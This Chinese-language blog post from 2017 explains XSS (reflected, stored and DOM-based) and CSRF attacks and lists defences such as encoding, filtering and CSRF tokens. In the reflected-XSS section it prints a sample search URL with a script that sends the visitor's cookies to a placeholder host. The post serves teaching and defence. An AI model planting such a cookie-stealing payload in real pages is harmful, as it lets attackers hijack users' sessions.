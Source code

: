 ```yaml
---
title: 了解XSS/CSRF
categories:
  - it
tags:
  - xss
  - csrf
  - security
date: 2017-06-06 13:21:15
updated: 2017-06-06 13:21:15
---
```


## XSS攻击和防御
### XSS定义
跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。
恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的特殊目的。

### XSS攻击方式
#### 反射型
发出请求时，XSS代码出现在URL中（典型的特征：攻击脚本写在URL中，是明文的），作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器（解析了XS代码，服务端把内容与HTML文本下发给浏览器，通常是js脚本），最后浏览器解析执行XSS代码这个过程像一次反射，故叫反射型XSS，也叫作"非持久型XSS“(Non-persistent XSS)
![反射XSS](./reflect_xss.png)

1. 做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。
2. 在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。
3. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
4. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie
='+document.cookie</script>

#### 存储型
把用户输入的数据”存储“在服务器端。这种XSS具有很强的稳定性。
比较常见的一个场景：黑客写下一篇包含恶意Javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的Javascript代码。黑客把恶意的脚本保存在服务器端，所以中XSS攻击就叫做"存储型XSS"。
#### DOM based XSS
也是一种反射型XSS，由于历史原因被单独列出来了。通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS

### XSS的危害
这些危害包括但不局限于：
盗取管理员或普通用户cookie、session；
读取、篡改、添加、删除敏感数据;
网站挂马；
非法转账；
控制受害者机器向其它网站发起攻击 等等

### XSS防御措施
- 编码：不能对用户所有输入保持原样对用户输入的数据写入HTML文档
  [HTML实体编码规则](http://www.w3school.com.cn/tags/html_ref_entities.html)
  避免直接对HTML Entity解码
  使用DOM Parse转换，校正不匹配对的DOM标签
- 过滤：把输入不合法的过滤掉，保持安全性
  移除用户上传的DOM属性，如onerror，onclick等
  移除用户上传的Style节点，script节点，iframe节点等
  在表单提交或者url参数传递前，对需要的参数进行过滤,XSS过滤工具类代码过滤用户输入的 检查用户输入的内容中是否有非法内容。如<>（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出


## CSRF攻击和防御
CSRF是什么呢？CSRF全名是Cross-site request forgery，是一种对网站的恶意利用，CSRF比XSS更具危险性。想要深入理解CSRF的攻击特性我们有必要了解一下网站session的工作原理。 

http请求是无状态的，也就是说每次http请求都是独立的无关之前的操作的，但是每次http请求都会将本域下的所有cookie作为http请求头的一部分发送给服务端，所以服务端就根据请求中的cookie存放的sessionid去session对象中找到该用户资料了。 

CSRF攻击的主要目的是让用户在不知情的情况下攻击自己已登录的一个系统，类似于钓鱼。如用户当前已经登录了邮箱，或bbs，同时用户又在使用另外一个，已经被你控制的站点，我们姑且叫它钓鱼网站。这个网站上面可能因为某个图片吸引你，你去点击一下，此时可能就会触发一个js的点击事件，构造一个bbs发帖的请求，去往你的bbs发帖，由于当前你的浏览器状态已经是登陆状态，所以session登陆cookie信息都会跟正常的请求一样，纯天然的利用当前的登陆状态，让用户在不知情的情况下，帮你发帖或干其他事情。

### CSRF防御
通过 referer、token 或者 验证码 来检测用户提交。
尽量不要在页面的链接中暴露用户隐私信息。
对于用户修改删除等操作最好都使用post操作 。
避免全站通用的cookie，严格设置cookie的域。
